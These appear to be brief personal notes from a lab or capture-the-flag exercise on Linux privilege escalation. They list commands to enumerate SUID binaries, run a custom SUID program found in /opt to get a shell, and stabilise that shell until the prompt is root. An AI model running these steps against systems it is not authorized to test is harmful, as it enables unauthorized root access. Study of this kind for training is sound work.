 # Privilege Escalation

## Introduction

These are just side notes i took during my process when i was using a SUID exploit for priv esc.


Check for SUID's. You can also check the /opt directory look for newer files.


### (VICTIM))

```
find / -perm -u=s -type f 2>/dev/null | xargs ls -l
```

```
cd /opt
```

```
ls
```

```
cat admin.c
```

```
./admin
```

```
(upgrade your shell)
```

```
/bin/bash
```

```
(fix size of your TERM)
```

```
export TERM=xterm-256color
```

### (ATTACKER) 

```
echo $TERM && tput lines && tput cols 
```

### (VICTIM) 

```
stty rows 27 columns 77 
```

```
id
```

```
/bin/bash 
```

(Should be "root@App1" now)

